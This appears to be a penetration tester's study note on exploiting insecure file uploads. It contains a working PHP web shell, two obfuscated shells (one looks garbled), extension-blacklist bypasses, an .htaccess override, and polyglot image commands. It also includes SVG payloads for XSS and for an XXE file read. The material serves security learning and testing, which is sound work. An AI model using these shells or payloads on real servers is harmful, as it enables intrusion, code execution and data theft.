




>[!info]
>Remote File Upload are possible because it sometimes happens that a web app allows files to be uploaded to the server (usually avatars, .pdf, etc.) but does not check that they are actually correct.

## Direct upload

If the server does not check the extension of the file, it is possible to directly upload a malicious file containing a shell like the following one:

```php
<?php
if (isset($_REQUEST['cmd')){
    echo "<pre>";
    $cmd = $_REQUEST['cmd'];
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

## Bypass insufficient blacklisting of dangerous file types

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like `.php`. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as `.php5`, `.shtml`, and so on.

Supported extensions:

- **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
	- Working in **PHPv8**: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
- **ASP**: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
- **Jsp**: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
- **Coldfusion**: .cfm, .cfml, .cfc, .dbm
- **Flash**: .swf
- **Perl**: .pl, .cgi
- **Erlang Yaws Web Serve**r: .yaws

>[!tip] [novasecio - Insecure File Uploads A Complete Guide to Finding Advanced File Upload Vulnerabilities](../../Readwise/Articles/novasecio%20-%20Insecure%20File%20Uploads%20A%20Complete%20Guide%20to%20Finding%20Advanced%20File%20Upload%20Vulnerabilities.md)
>Don't know if you're dealing with an exclusion list or an allow list? Try uploading a file with a random extension, if it got accepted, you're likely dealing with a blacklist, otherwise, it's likely a strictly defined allow list.
## Overriding the server configuration

Servers typically won't execute files unless they have been configured to do so. Many servers, however, allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings:
- Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present.
- IIS servers uses `web.config` files. 
 
Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests. However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, **you may be able to trick the server into mapping an arbitrary, custom file extension** to an executable MIME type.

Uploaded an `.htaccess` file considering `.pwn` extensions like `.php`:

```php
AddType application/x-httpd-php .pwn
```

`.pwn` files now can execute php code:


## Content-Type spoofing

Some time applications check only the "Content-type" header. In this case it is possible to bypass the control intercepting the upload request and changing the header from `Content-Type: application/x-php` to `Content-Type: image/png`

## Magic-bytes, EfixData injection and polyglot files

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly. Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

It is possible to inject magic-bytes into plain text files in order to make them look like other extension:

*JPEG*
```bash
┌──(kali㉿kali)-[~/Pictures]
└─$ echo -n "\xff\xd8\xff\xe1\x00\x18\x45\x78\x69\x66\x00\x00" > jpeg_exif 

┌──(kali㉿kali)-[~/Pictures]
└─$ xxd jpeg_exif 
00000000: ffd8 ffe1 0018 4578 6966 0000            ......Exif..

┌──(kali㉿kali)-[~/Pictures]
└─$ file jpeg_exif                                                                          
jpeg_exif: JPEG image data, Exif standard: []
```

*GIF*
```php
GIF8;
<?php phpinfo(); ?>
```

But it's also possible using special tools, such as ExifTool, to create a polyglot JPEG file containing malicious code within its metadata:

```bash
$ exiftool -comment='<?=phpinfo()?>' [PathFoto]
```

Then we need to find a way to change the image extension to a vulnerable one or otherwise, find a way to force the server into interpreting the image as a different type of file.

Eg:
- https://github.com/kunte0/phar-jpg-polyglot/tree/master

See also:
- CVE-2023-33466 - Exploiting Healthcare Servers with Polyglot Files [^33466]

[^33466]: [Exploiting Healthcare Servers with Polyglot Files](https://www.shielder.com/blog/2023/10/cve-2023-33466-exploiting-healthcare-servers-with-polyglot-files/), shielder.com

## Bypass file execution prevention in user-accessible directories

Generally, the second line of defense is to stop the server from executing any scripts that do slip through the net.
As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead. This behavior is potentially interesting in its own right, as it may provide a way to leak source code, but it nullifies any attempt to create a web shell.

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory ([Path Traversal](Path%20Traversal.md) vulnerabilities) that's not supposed to contain user-supplied files, the server may execute your script after all.

The webshell uploaded inside the avaters folder is rendered as plain-text instead of being executed:


Exploited a [Path Traversal](Path%20Traversal.md) vulnerability to upload the webshell outside of the intended path:


The webshell uploaded inside the files folder is interpreted and PHP code is executed:


### Zip slip

Sometime it is possible to exploit the same issue even if only archive files are accepted on the server and their upload path is correctly check. When archives are unzipped, if they contain files having relative or full paths as names, they can possibly be stored outside from the intended path, resulting in a path traversal and eventually remote code execution.

>[!example] Examples
>- [Slippy](../../Play%20ground/CTFs/Slippy.md) 
>- [Acnologia Portal](../../Play%20ground/CTFs/Acnologia%20Portal.md) 

Interesting file that we can try to create or overwrite exploiting the zip slip vulnerability are:
- SSH keys in `~/.ssh/`
- configuration files
- `__init__.py` for [Python](../Dev,%20scripting%20&%20OS/Python.md) applications [^__init__]
- Application source code
- Cookies or secrets stored inside writable files [^flask_session]
- Cron files
- Specific application features that can be exploited or used as gadget [^openrefine-zip-slip]

[^__init__]: [Slippy](../../Play%20ground/CTFs/Slippy.md)
[^flask_session]: [Acnologia Portal](../../Play%20ground/CTFs/Acnologia%20Portal.md)
[^openrefine-zip-slip]: [Stefan Schiller - Unzipping Dangers OpenRefine Zip Slip Vulnerability](../../Readwise/Articles/Stefan%20Schiller%20-%20Unzipping%20Dangers%20OpenRefine%20Zip%20Slip%20Vulnerability.md)

## File upload race condition

Modern frameworks generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous [Race Conditions](Race%20Condition.md) that enable an attacker to completely bypass even the most robust validation.

>[!example]
>Some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during black-box testing unless you can find a way to leak the relevant source code.

### Race condition in URL-based file upload (SSRF)

Similar [Race Conditions](Race%20Condition.md) can occur in functions that allow you to upload a file by providing a URL. In this case, the server has to fetch the file over the internet and create a local copy before it can perform any validation. As the file is loaded using HTTP, developers are unable to use their framework's built-in mechanisms for securely validating files. Instead, they may manually create their own processes for temporarily storing and validating the file, which may not be quite as secure.

If the file is loaded into a temporary directory with a randomized name, if the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced. To make attacks like this easier, you can try to extend the amount of time taken to process the file, thereby lengthening the window for brute-forcing the directory name. One way of doing this is by uploading a larger file. If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.

## File upload when remote code execution is not possible

 Insecure file upload vulnerabilities can be exploited even if remote code execution is not achieved. Other possibilities are:  

>[!bug]- [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md)
>```xml
><?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg"> <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> <script type="text/javascript"> alert("Ghostlulz XSS"); </script> </svg>
>```

>[!bug]- [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
>```xml
>><?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
>```


## Obfuscating file extensions and evading restrictions

- [Evading Restrictions](Evading%20Restrictions.md)
- [Evading path, file and shell restrictions](Evading%20Restrictions.md#Evading%20path,%20file%20and%20shell%20restrictions)
- Provide multiple extensions (`exploit.php.jpg`, `exploit.jpg.php`)
- Add trailing characters : some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
- Url-encoding and double url-encoding
- Add semicolons or URL-encoded null byte characters before the file extension: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
- Inception of vulnerable extensions: `exploit.p.phphp` becomes `exploit.php` if the server do not remove extensions recursively

*obfuscated_shell1.php*
```php
<?
// shell.php?0=system&1=ls
@$_[]=@! _; $__=@${_}>>$_;$_[]=$__;$_[]=@_;$_[((  $__) ($__   ))].=$_;
$_[]=  $__; $_[]=$_[--$__][$__>>$__];$_[$__].=(($__ $__)  $_[$__-$__]).($__ $__ $__) $_[$__-$__];
$_[$__ $__] =($_[$__][$__>>$__]).($_[$__][$__]^$_[$__][($__<<$__)-$__] );
$_[$__ $__] .=($_[$__][($__<<$__)-($__/$__)])^($_[$__][$__] );
$_[$__ $__] .=($_[$__][$__ $__])^$_[$__][($__<<$__)-$__ ];
$_=$ 
$_[$__  $__] ;$_[@-_]($_[@! _] );
?>
```

*obfuscated_shell2.php*
```php
<?php
// shell.php?_=system&__=ls
$_="{"; 
$_=($_^"<").($_^">;").($_^"/");
?>
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```


## Tools

- ExifTool
- [Weevely](https://github.com/epinna/weevely3)
- `/usr/share/webshells`

## Further references

- [File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload)
- [File Upload (Web Security Academy)](https://portswigger.net/web-security/file-upload)